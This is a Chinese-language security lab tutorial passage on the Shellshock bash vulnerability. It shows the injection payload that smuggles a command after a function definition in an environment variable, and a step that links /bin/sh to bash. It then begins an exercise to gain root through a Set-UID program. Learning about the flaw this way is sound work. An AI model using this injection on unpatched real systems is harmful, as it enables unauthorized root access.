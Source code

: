 输出vulnerable的话,说明bash有漏洞。

最后，让`/bin/sh` 指向`/bin/bash`.
```sh
$ sudo ln -sf /bin/bash /bin/sh
```
现在一切就绪，进入下一步吧。

#### 2.预备知识

了解bash自定义函数，只需要函数名就能够调用该函数。
```
$ foo() { echo bar; } 
$ foo
> bar
```
这个时候的Bash的环境变量：
```
KEY = foo
VALUE = () { echo bar; }
```
来看看ShellShock漏洞的真身：
```
export foo='() { :; }; echo Hello World'
bash
>Hello World
```
为什么调用bash的时候输出`Hello World`了呢？瞧瞧他内部的情况：
```
KEY = foo
VALUE = () { :; }; echo Hello World
```
bash读取了环境变量，在定义foo之后直接调用了后面的函数。
一旦调用bash，自定义的语句就直接触发。

到了这，你有想到什么吗？联系之前的 Set-UID 课程。

```checker
- name: check link
  script: |
    #!/bin/bash
    ls -l /bin/bash|grep local
  error: 没有链接 /bin/bash 或者 bash4.1 没有安装成功
```

## 三、 实验内容

本节将通过实践操作，带领大家亲手重现 shellshock 攻击来理解该漏洞

### 3.1 攻击Set-UID程序

本实验中，我们通过攻击Set-UID程序来获得root权限。

我们知道system()函数将调用"`/bin/sh -c`" 来运行指定的命令, 这也意味着`/bin/bash` 会被调用，你能够利用shellshock漏洞来获取权限么？
首先，确保安装了带有漏洞的bash版本，并让`/bin/sh` 指向`/bin/bash`.

